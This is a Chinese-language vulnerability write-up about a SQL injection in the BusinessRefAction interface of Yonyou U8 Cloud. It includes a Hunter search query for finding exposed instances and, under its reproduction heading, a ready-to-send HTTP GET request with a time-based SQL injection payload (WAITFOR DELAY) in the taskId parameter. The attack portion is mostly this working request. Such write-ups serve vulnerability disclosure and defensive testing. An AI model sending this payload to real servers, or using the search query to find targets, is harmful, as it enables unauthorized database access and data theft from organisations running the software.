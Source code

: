 # 一、漏洞简介
用友U8 Cloud是用友公司推出的企业上云数字化平台，为成长型和创新型企业提供全面的云ERP解决方案。然而，该平台中存在一个安全漏洞，涉及BusinessRefAction 接口对用户输入参数缺乏有效过滤，可能导致SQL注入攻击。攻击者可通过此漏洞未经授权地访问数据库，造成潜在的信息泄露风险。建议尽快修复漏洞，强化输入验证，提升系统安全性。
# 二、影响版本

- 用友U8 Cloud
# 三、资产测绘

- hunter`app.name="用友 U8 Cloud"`

![image.png](https://cdn.nlark.com/yuque/0/2023/png/1622799/1692444362525-121bbed1-c72d-4cad-99db-3e18509417c1.png#averageHue=%23ebcaa3&clientId=ua411923f-d5fb-4&from=paste&height=681&id=uf205e7f2&originHeight=1362&originWidth=2840&originalType=binary&ratio=2&rotation=0&showTitle=false&size=491230&status=done&style=none&taskId=u7ed064ee-8f52-4872-861a-fb7315b8b0f&title=&width=1420)

- 登录页面

![image.png](https://cdn.nlark.com/yuque/0/2023/png/1622799/1692444381978-7d4ed5bf-a153-47e5-88e6-4dd97953e976.png#averageHue=%23f9f5f5&clientId=ua411923f-d5fb-4&from=paste&height=700&id=ua5709016&originHeight=1400&originWidth=2880&originalType=binary&ratio=2&rotation=0&showTitle=false&size=314376&status=done&style=none&taskId=ud7c775d3-f67e-45fb-9234-03dc8052c11&title=&width=1440)
# 四、漏洞复现
```
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.web.reference.BusinessRefAction&method=getTaskRepTreeRef&taskId=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/1622799/1723391621567-54bad6aa-e650-4edd-be75-d9e3b7beb4e9.png#averageHue=%2375999a&clientId=udcf081bc-780f-4&from=paste&height=481&id=uafbdaea1&originHeight=962&originWidth=2232&originalType=binary&ratio=2&rotation=0&showTitle=false&size=371151&status=done&style=none&taskId=ud834cc84-3d44-492d-91a2-20a7f7bbea8&title=&width=1116)
